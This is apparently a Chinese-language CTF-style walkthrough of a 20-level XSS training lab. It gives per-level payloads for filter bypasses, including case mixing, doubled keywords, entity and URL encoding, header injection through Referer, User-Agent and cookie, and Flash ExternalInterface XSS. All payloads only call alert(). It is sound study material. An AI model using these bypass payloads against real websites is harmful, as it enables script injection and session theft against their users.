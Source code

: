 ## level1
反射型XSS</br>
```java
payload：?name=<script>alert(1)</script>
```

## level2
```java
payload："><script>alert(1)</script>
```

## level3
输入1<"">''内容然后搜索，查看源代码，两个回显点均过滤特殊字符，但是单引号未过滤。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(1).png height="300" width="650">
```java
payload：1' onmouseover='alert(1)
```
鼠标划过输入框上面即弹窗：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(2).png height="300" width="650">

## level4
跟上一关一样，双引号的不同。</br>
```java
payload：1” onmouseover=“alert(1)
```

## level5
script大小写、on事件被禁用：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(3).png height="300" width="650"></br>
但是双引号、单引号、尖括号都可以用</br>
```java
payload：1"><a href="javascript:alert(1)">
```

## level6
script、on事件、href链接相关词被转义：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(4).png height="300" width="650"></br>
可以大小写绕过：</br>
```java
payload：1"><scRipt>alert(1)</scRipt>
```

## level7
输入<script>&lt;onerror&gt;&lt;a hRef&gt;测试，发现对关键字进行了过滤，且大小写不能绕过：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(5).png height="300" width="650"></br>
发现对关键字只进行了一次过滤，可以对关键字双写绕过：</br>
```java
payload：1" oonnmouseover="alert(1)
```
  
## level8
先输入一些关键字符<scripT>&lt;oNerror&gt;&lt;a Href&gt;""''，测试防御情况，看到关键字都被转义，看到a标签考虑使用”<a href="javascript:alert(1)"></a>“，页面有回显的超链接，想办法将script转码一下。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(6).png height="300" width="650"></br>
尝试用如下方式对标签属性值进行转码：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(7).png></br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(8).png></br>
```java
payload：javasc&#13ript:alert(1)
```

## level9
测试看到a标签考虑使用<a href="javascript:alert(1)"></a>，页面有回显的超链接，想办法将script转码一下。</br>
但是使用上一关的payload测试，发现一直提示链接不合法，测试得知必须使用`http://`才能链接合法，想办法将该字符塞入payload中，使用js代码的注释符注释`http://`</br>
```java
payload：javasc&#9ript:alert(1)/*http://*/
payload：javasc&#9ript:alert(1)//http://
payload：javasc&#9ript:alert(1)<!--http://
```

## level10
右键审查元素发现t_sort的隐藏域可控制输入内容，但是触发隐藏域需要使用accesskey属性，payload如下。</br>
但是触发的时候浏览器不同触发键不一样；另外笔记本键盘和外设键盘可能会影响触发效果。</br>
FireFox下：shift+alt+X (测试成功) </br>
Chrome下：alt+X (Chrome未测试成功) </br>
```java
payload：?t_sort=1"%20accesskey="X"%20onclick="alert(1)
```

## level11
此题比较注入点隐晦，比较难以发现。首先右键查看页面源代码分析，多了一个t_ref隐藏域，进一步分析它是由请求头中的Referer字段取值而来，而且只能从请求头中取Referer值，不能由URL传值；另外我们知道Referer字段是可以伪造的，那么我们可以使用BurpSuite来抓包伪造Referer字段来构造payload。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(9).png height="300" width="650"></br>
```java
payload：Referer: 1" type="txt" oninput="alert(888)
```
这种构造，会将t_ref隐藏域在页面显现，on事件触发条件为在输入框中输入任意值即触发XSS。</br>

## level12
与上一题一样，只不过输入点在User-Agent。</br>
```java
payload：User-Agent: 1" type="txt" oninput="alert(888)
```

## level13
与上一题一样，只不过输入点在cookie。</br>
```java
payload：user=1" type="txt" oninput="alert(888)
```

## level14
查看网页源码，看到<iframe src=></iframe>标签，就应该考虑设法在src处注入：src=javascript(1)。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(10).png></br>
如何替换`src="http://www.exifviewer.org/"`中的网址成了我们要考虑的问题，进一步追踪该网页的来源，最后通过抓包在响应包中发现该网址。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(11).png></br>
那么我们的思路就清楚了，通过抓包，修改响应包的src值来控制输入内容，达到XSS目的。</br>
```java
payload：src="javascript:alert(666)"
```

## level15
与上一关相似，修改响应包数据：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(12).png height="300" width="650"></br>
```
payload："><script>alert(1)</script><"
```

## level16
经测试，script和/均被过滤，空格符号也无法使用，但是on事件可以使用。使用img标签，将空格用url编码%0a、%0b、%0d替换，测试成功。</br>
```
payload：?keyword=<img%0dsrc=a%0donerror=alert(1)>
```

## level17
从上一关跳转到本关，URL中有两个参数?arg01=a&arg02=b；右键查看源码，是embed标签，它支持on事件，可以在参数b后面空格注入on事件构造payload。
```
payload：?arg01=a&arg02=b%20onmousedown=alert(1)
```
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(13).png></br>

## level 18
与上一关相似。这两关也都可以在第一个参数后加空格来绕过。</br>
```
payload1：?arg01=a&arg02=b%20onmouseup=alert(1)
payload2：?arg01=%20onmouseup&arg02=alert(1)
```

## level19
与上面一关解题思路一样，但是输入内容被加了双引号，使用双引号闭合却发现双引号被转义：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(14).png></br>
到了这一关卡，使用Google Chrome和FireFox浏览器已经不能满足题目环境要求了，因为这最后两关卡涉及Flash XSS，需要浏览器支持Flash文件。我们下载QQ浏览器并安装Flash再来看题目，并且学习Flash XSS的知识：https://www.secpulse.com/archives/44299.html。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(15).png></br>
看本关的页面看不出来任何东西，重点还是需要看xsf03.swf这个文件本身，专门下载一个编辑Flash文件.swf的软件JPEXSFreeFlashDecompiler来查看代码：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(16).png></br>
xsf03.swf文件打开后里面有一系列文件，我们重点看脚本中的sIFR.js文件，几个关键变量复制出来：</br>
```
static var DEFAULT_TEXT = "Rendered with sIFR 3, revision 436<br><strong>Rendered with sIFR 3, revision 436</strong><br><em>Rendered with sIFR 3, revision 436</em><br><strong><em>Rendered with sIFR 3, revision 436</em></strong>";
static var VERSION_WARNING = "Movie (436) is incompatible with sifr.js (%s). Use movie of %s.<br><strong>Movie (436) is incompatible with sifr.js (%s). Use movie of %s.</strong><br><em>Movie (436) is incompatible with sifr.js (%s). Use movie of %s.</em><br><strong><em>Movie (436) is incompatible with sifr.js (%s). Use movie of %s.</em></strong>";
static var VERSION = "436";
```
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(17).png></br>
继续看上图中的逻辑代码，大致意思是入参version如果等于436，页面显示DEFAULT_TEXT内容；如果入参version不等于436，则页面显示VERSION_WARNING内容，注意VERSION_WARNING内容包含一个未过滤的version入参。</br>
再回到本关内容，根据前两关思路，继续利用arg01和arg02两个参数构造测试：</br>
```
?arg01=version&arg02=436
```
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(18).png></br>
```
?arg01=version&arg02=888
```
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(19).png></br>
```
最终构造出payload：?arg01=version&arg02=<a href="javascript:alert(1)">888</a>
```
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(20).png></br>

## level20
借鉴博客：https://blog.csdn.net/u014029795/article/details/103217680</br>
先使用软件JPEXSFreeFlashDecompiler把xsf04.swf中的关键代码拿出来：</br>
```
package
{
   import flash.display.LoaderInfo;
   import flash.display.Sprite;
   import flash.display.StageScaleMode;
   import flash.events.Event;
   import flash.events.MouseEvent;
   import flash.external.ExternalInterface;
   import flash.system.Security;
   import flash.system.System;
   
   public class ZeroClipboard extends Sprite
   {  
      private var button:Sprite;
      
      private var id:String = "";
      
      private var clipText:String = "";
      
      public function ZeroClipboard()
      {
         super();
         stage.scaleMode = StageScaleMode.EXACT_FIT;
         Security.allowDomain("*");
         var flashvars:Object = LoaderInfo(this.root.loaderInfo).parameters;
         id = flashvars.id;
         button = new Sprite();
         button.buttonMode = true;
         button.useHandCursor = true;
         button.graphics.beginFill(13434624);
         button.graphics.drawRect(0,0,Math.floor(flashvars.width),Math.floor(flashvars.height));
         button.alpha = 0;
         addChild(button);
         button.addEventListener(MouseEvent.CLICK,clickHandler);
         button.addEventListener(MouseEvent.MOUSE_OVER,function(param1:Event):*
         {
            ExternalInterface.call("ZeroClipboard.dispatch",id,"mouseOver",null);
         });
         button.addEventListener(MouseEvent.MOUSE_OUT,function(param1:Event):*
         {
            ExternalInterface.call("ZeroClipboard.dispatch",id,"mouseOut",null);
         });
         button.addEventListener(MouseEvent.MOUSE_DOWN,function(param1:Event):*
         {
            ExternalInterface.call("ZeroClipboard.dispatch",id,"mouseDown",null);
         });
         button.addEventListener(MouseEvent.MOUSE_UP,function(param1:Event):*
         {
            ExternalInterface.call("ZeroClipboard.dispatch",id,"mouseUp",null);
         });
         ExternalInterface.addCallback("setHandCursor",setHandCursor);
         ExternalInterface.addCallback("setText",setText);
         ExternalInterface.call("ZeroClipboard.dispatch",id,"load",null);
      }
      
      public function setHandCursor(param1:Boolean) : *
      {
         button.useHandCursor = param1;
      }
      
      private function clickHandler(param1:Event) : void
      {
         System.setClipboard(clipText);
         ExternalInterface.call("ZeroClipboard.dispatch",id,"complete",clipText);
      }
      
      public function setText(param1:*) : *
      {
         clipText = param1;
      }
   }
}
```
上一关是Flash getURL XSS，而这一关Flash ExternalInterface.call XSS！</br>
首先通过LoaderInfo从URL中取值id，再取两个值width和height：</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(21).png></br>
接下来构造payload。</br>
```
payload：?arg01=id&arg02=xss%5c"))}catch(e){alert(1)}//%26width=123%26height=123
```
第一个参数arg01=id不解释了，重点看第二个参数arg02。</br>
（1）关于%5c、%26，测试中发现不能直接使用转义符\和&符号。</br>
（2）ExternalInterface.call(a,b)相当于JS中的函数名(代码)，函数名已经固定了，所以我们就从id这里着手，把id的值代进去。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(22).png></br>
```
private function clickHandler(param1:Event) : void
      {
         ExternalInterface.call("ZeroClipboard.dispatch","xss\"))}catch(e){
         	alert(1)
         	}
         //","complete",clipText);
      }
```
你会发现这样一来，由于前面少了一个真正可以闭合的"于是会报错，所以后面抛出异常的catch就可以生效了，于是执行后面的alert(1)。</br>
<img src=https://github.com/nathanzeng001/Sec-Note/blob/main/Image/Vulnerabilities/xss%20(23).png></br>
